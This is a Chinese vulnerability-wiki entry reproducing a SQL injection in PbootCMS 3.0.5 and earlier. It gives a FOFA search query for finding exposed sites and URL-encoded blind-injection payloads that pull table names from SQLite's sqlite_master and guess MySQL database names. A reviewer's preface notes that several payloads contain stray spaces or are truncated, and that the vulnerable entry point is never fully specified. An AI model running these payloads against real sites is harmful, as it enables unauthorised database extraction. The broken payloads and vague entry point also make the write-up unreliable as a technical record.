





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：特定存在页面/搜索路径可触发domain相关查询；DB类型决定payload

- **结论使用边界（1）**：标题domain却正文没给完整入口/参数，只说13后加引号；无法定位实际输入。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（2）**：SQLite字符串ta ble/t able及% 3d被空格污染，后两payload在limit/limi截断。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **适用与权限边界（3）**：表单总数应表数；单引号报错不能独立证明可利用SQLi，所谓无法利用图不明确条件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（4）**：缺官方范围依据/来源，SQLite与MySQL分支需分别保存。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS <= 3.0.5
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

本地搭建最新版本,访问首页


我们需要访问一个存在的页面

url中13后加个单引号 `'`，若为执行sql报错相关,则漏洞存在




若显示下图，则漏洞无法利用


程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```




通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错




由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a
```




猜解第一个表名称,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi
```




这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
